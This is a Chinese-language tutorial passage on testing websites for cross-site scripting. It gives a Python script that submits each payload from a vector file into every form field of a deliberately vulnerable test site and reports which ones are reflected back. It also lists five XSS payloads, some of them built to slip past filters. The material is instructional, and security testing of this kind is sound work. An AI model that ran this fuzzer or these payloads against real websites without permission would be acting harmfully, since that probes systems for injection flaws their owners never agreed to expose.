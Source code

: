 跨站脚本是一种注入攻击类型，当攻击向量以浏览器端脚本的形式注入时发生。

要测试网站是否容易受到 XSS 攻击，我们可以使用以下脚本，从一个包含所有可能攻击向量的`XSS-attack-vectors.txt`文件中读取。如果由于向网站发出请求以及有效负载一起分析的结果，我们获得的信息与用户发送的信息相同，并再次显示给用户，那么我们就有一个明显的漏洞案例。

您可以在 XXS 文件夹的`URL_xss.py`文件中找到以下代码：

```py
import requests
import sys
from bs4 import BeautifulSoup, SoupStrainer
url = 'http://testphp.vulnweb.com/search.php?test=query'
data ={}

response = requests.get(url)
with open('XSS-attack-vectors.txt') as file:
    for payload in file:
        for field in BeautifulSoup(response.text, "html.parser",parse_only=SoupStrainer('input')):
            print(field)
            if field.has_attr('name'):
                if field['name'].lower() == "submit":
                    data[field['name']] = "submit"
                else:
                    data[field['name']] = payload

        response = requests.post(url, data=data)
        if payload in response.text:
            print("Payload "+ payload +" returned")
        data ={}
```

您可以在 XXS 文件夹的`XSS-attack-vectors.txt`文件中找到以下代码：

```py
<SCRIPT>alert('XSS');</SCRIPT>
<script>alert('XSS');</script>
<BODY ONLOAD=alert('XSS')>
<scrscriptipt>alert('XSS');</scrscriptipt>
<SCR%00IPT>alert(\"XSS\")</SCR%00IPT>
```

在这个截图中，我们可以看到之前脚本`URL_xss.py`的执行情况：
